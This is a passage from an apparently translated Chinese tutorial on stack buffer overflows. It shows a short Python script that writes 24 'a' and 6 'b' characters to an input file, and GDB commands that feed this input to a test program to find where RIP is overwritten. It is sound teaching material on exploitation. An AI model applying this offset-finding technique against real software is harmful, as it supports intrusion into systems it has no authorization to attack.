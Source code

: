 然后，授予其执行权限并执行：

```
$ chmod +x exploit.py
$ ./exploit.py
```

从 GDB 内部运行以下命令：

```
$ run $(cat input.txt)
```

然后，代码将在`main`处暂停：

![](../images/00234.jpeg)

点击*C*后*进入*继续执行：

![](../images/00235.jpeg)

您注意到`?? ()`中的错误`0x0000000000006161`了吗？从前面的屏幕截图来看，程序不知道`0x0000000000006161`在哪里，而`6161`在`aa`在哪里，这意味着我们能够向 RIP 寄存器中注入 2 个字节，所以我让它在 24 个字符后启动。别担心，我们将在下一章讨论这个问题。

让我们通过使用`a`中的 24 个字符和`b`中的 6 个字符来确认：

```
$ run aaaaaaaaaaaaaaaaaaaaaaaabbbbbb
```

我们还可以使用 Python：

```
#!/usr/bin/python

buffer = ''
buffer += 'a'*24
buffer += 'b'*6
f = open("input.txt", "w")
f.write(buffer)
```

然后，执行攻击以生成新输入：

```
$ ./exploit
```

之后，从 GDB 内部运行以下操作：

```
$ run $(cat input.txt)
```

然后，代码将到达断点：

![](../images/00236.jpeg)

点击*C*后*进入*继续：

![](../images/00237.jpeg)
